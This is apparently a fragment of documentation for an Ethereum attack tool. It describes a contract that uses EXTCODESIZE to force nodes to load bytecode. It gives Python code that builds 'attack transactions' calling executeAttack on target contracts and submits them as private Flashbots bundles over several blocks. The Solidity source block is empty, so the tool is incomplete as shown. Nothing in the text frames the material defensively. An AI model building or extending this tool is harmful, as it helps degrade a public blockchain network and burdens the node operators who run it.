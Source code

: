 ```solidity
```

Key Features:
- Uses EXTCODESIZE to force bytecode loading
- Tracks total bytecode processed
- Emits events for analysis
- Gas-optimized implementation

#### 2. Transaction Generator

Python class responsible for creating and managing attack transactions:

```python
class TransactionGenerator:
    def create_attack_transaction(self, target_contracts: List[str]) -> dict:
        tx = self.contract.functions.executeAttack(target_contracts).build_transaction({
            'from': self.account.address,
            'gas': 500000,
            'maxFeePerGas': self.w3.eth.max_priority_fee + (2 * self.w3.eth.get_block('latest')['baseFeePerGas']),
            'maxPriorityFeePerGas': self.w3.eth.max_priority_fee,
            'nonce': self.w3.eth.get_transaction_count(self.account.address),
        })
        return tx
```

Features:
- Dynamic gas estimation
- EIP-1559 fee management
- Nonce handling
- Transaction building

#### 3. Flashbots Integration Layer

Manages bundle creation and submission to Flashbots:

```python
class FlashbotsManager:
    async def submit_bundle(self, signed_tx: str, target_block: int):
        bundle = [{
            'signed_transaction': signed_tx
        }]
        
        # Simulate first
        simulation = await self.flashbots.simulate(bundle, target_block)
        
        if simulation['success']:
            # Submit for multiple blocks
            results = await asyncio.gather(*[
                self.flashbots.send_bundle(
                    bundle, 
                    target_block_number=block_num
                ) for block_num in range(target_block, target_block + 5)
            ])
            return results
        return None
```
